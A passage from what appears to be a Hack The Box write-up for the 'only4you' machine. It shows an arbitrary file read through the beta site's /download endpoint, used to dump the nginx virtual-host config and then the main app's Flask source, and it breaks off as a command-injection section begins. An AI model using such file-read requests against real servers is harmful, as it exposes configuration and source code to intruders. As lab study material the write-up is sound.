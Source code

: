 Attempted to retrieve the `app.py` from the `only4you.htb` vhost, but it returns a 404. It's possible that the path ( `/var/www/html/app.py` ) is incorrect. The configuration for vhosts is usually present in the `/etc/nginx/sites-enabled/default` file.

{{< highlight bash "linenos=table,hl_lines=14 24" >}}

> http --form -pb POST beta.only4you.htb/download image='/etc/nginx/sites-enabled/default'

server {
    listen 80;
    return 301 http://only4you.htb$request_uri;
}

server {
    listen 80;
    server_name only4you.htb;

    location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/only4you.htb/only4you.sock;
    }
}

server {
    listen 80;
    server_name beta.only4you.htb;

        location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/beta.only4you.htb/beta.sock;
        }
}

{{< /highlight >}}

Given this information, it seems that the root directory for the `only4you.htb` virtual host is `/var/www/only4you.htb/`. Using this the `app.py` file can be retrieved successfully.

### Command Injection

_/var/www/only4you.htb/app.py_

{{< highlight python "hl_lines=2 12 17" >}}

> http --form -pb POST beta.only4you.htb/download image='/var/www/only4you.htb/app.py'
from flask import Flask, render_template, request, flash, redirect
from form import sendmessage
import uuid

app = Flask(__name__)
app.secret_key = uuid.uuid4().hex

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        email = request.form['email']
        subject = request.form['subject']
        message = request.form['message']
        ip = request.remote_addr
